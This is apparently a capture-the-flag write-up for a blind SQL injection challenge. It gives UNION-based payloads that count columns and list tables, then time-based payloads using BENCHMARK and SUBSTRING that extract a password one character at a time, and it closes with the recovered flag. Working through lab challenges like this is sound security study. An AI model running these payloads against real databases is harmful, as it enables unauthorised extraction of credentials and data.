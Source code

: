 Hint: use Blind injection.

1. Find the number of columns of images table:
   - ' UNION SELECT NULL, NULL; -- -
2. Find all tables:
   - ' UNION SELECT group_concat(table_name), NULL from information_schema.tables where table_schema=database(); -- -
   - Not good, because need to display the information but in this case we can't
   - check [link1](https://owasp.org/www-community/attacks/Blind_SQL_Injection) and [link2](https://www.netsparker.com/blog/web-security/how-blind-sql-injection-works/) for **Blind Injection**, in particular time-based injection

Examples:
- 1' UNION SELECT IF(SUBSTRING(user_password,1,1) = CHAR(50),BENCHMARK(5000000,ENCODE('MSG','by 5 seconds')), NULL), NULL; -- -
- 1' UNION SELECT IF(SUBSTRING(group_concat(table_name),1,1) = CHAR(50), BENCHMARK(5000000,ENCODE('MSG','by 5 seconds')), NULL), NULL from information_schema.tables where table_schema=database(); -- -

Need script to test out all positions and characters. Check `script.py`. 

(Note: the found solution is uppercased, may need to lowercase it before submitting)

Flag: secret{t4dgizxxdgkaqupb2zkf}

Flag: secret{T4dGIZxXDGkAqupB2ZKf} [case sensitive]